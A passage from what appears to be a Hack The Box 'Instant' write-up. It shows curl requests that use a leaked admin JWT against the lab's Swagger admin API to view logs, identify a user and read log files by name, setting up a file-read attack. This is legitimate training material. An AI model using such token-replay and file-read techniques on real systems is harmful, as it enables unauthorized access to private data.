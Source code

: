 We get permissions error.

<br/> 
<img src="/img/instant_screenshots/Pasted image 20241013201440.png" alt="1" style="width:700px; height:auto;">
<br/>

We do not have enough permissions.   

Taking the command used and adding the `JWT` token.  

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/view/logs" -H  "Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

We get a valid response.

<br/> 
<img src="/img/instant_screenshots/Pasted image 20241013201610.png" alt="1" style="width:700px; height:auto;">
<br/>

We can identify the user `shirohige`.  

Trying the next API `api/v1/admin/read/log` but directly with our header. 

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" -H  "Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

We can read the log file.  
